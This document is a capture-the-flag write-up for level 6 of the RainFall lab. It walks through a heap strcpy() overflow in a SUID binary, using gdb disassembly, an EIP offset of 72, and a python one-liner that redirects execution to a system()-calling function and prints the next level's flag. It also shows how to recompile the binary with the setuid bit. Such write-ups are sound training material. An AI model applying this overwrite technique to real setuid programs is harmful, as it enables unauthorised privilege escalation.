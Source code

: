 # Level 6

## Vulnerability

strcpy() buffer overflow

## Context

We find a binary with owner level7 and SUID.
```
level6@RainFall:~$ ls -l
-rwsr-s---+ 1 level7 users 5274 Mar  6  2016 level6
```
It segfaults when run without arguments. It replies to random arguments with "Nope".
```
level6@RainFall:~$ ./level6
Segmentation fault (core dumped)
level6@RainFall:~$ ./level6 Would you like to be my friend?
Nope
```

## Solution

Investigating with gdb, we find the main calls function ```m``` which writes "Nope".
```
level6@RainFall:~$ gdb -q level6
...
(gdb) disas main
...
   0x080484a5 <+41>:	mov    $0x8048468,%edx        ; load address of function m
...
   0x080484c5 <+73>:	call   0x8048340 <strcpy@plt> ; strcpy() argv[1] to 64 byte buffer
...
   0x080484d0 <+84>:	call   *%eax                  ; call function m
...
(gdb) disas m
...
   0x08048475 <+13>:	call   0x8048360 <puts@plt>   ; write "Nope"
```
But we also find a similar uncalled function ```n``` which calls ```system()```.
```
(gdb) info functions
...
0x08048454  n
...
(gdb) disas n
...
   0x08048461 <+13>:	call   0x8048370 <system@plt>
```
strcpy() copies argv[1] to a 64 byte buffer on the heap.
Let's try to overflow this buffer and overwrite ```eip``` with the address of ```n```.
First, using the following example with [this EIP offset tool](https://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/), we find the EIP offset is 72.
```
(gdb) run Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
...
0x41346341 in ?? ()
```
So we build our exploit string:
1. 72 bytes padding
2. address of ```n``` (4 bytes) - "\x54\x84\x04\x08"

Then give the exploit string as argument to the binary
```
level6@RainFall:~$ ./level6 $(python -c 'print "A" * 72 + "\x54\x84\x04\x08"')
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```

## Recreate Exploited Binary

As user level7, in /tmp, create and compile level6_source.c.
```
level7@RainFall:/tmp$ gcc level6_source.c -o level6_source
```
Edit permissions including suid, then move the binary to home directory.
```
level7@RainFall:/tmp$ chmod u+s level6_source; chmod +wx ~; mv level6_source ~
```
Exit back to user level6, then run the source with an updated address of function ```n``` (found with gdb).
```
level7@RainFall:/tmp$ exit
exit
level6@RainFall:~$ /home/user/level7/level6_source $(python -c 'print "A" * 72 + "\x88\x84\x04\x08"')
```
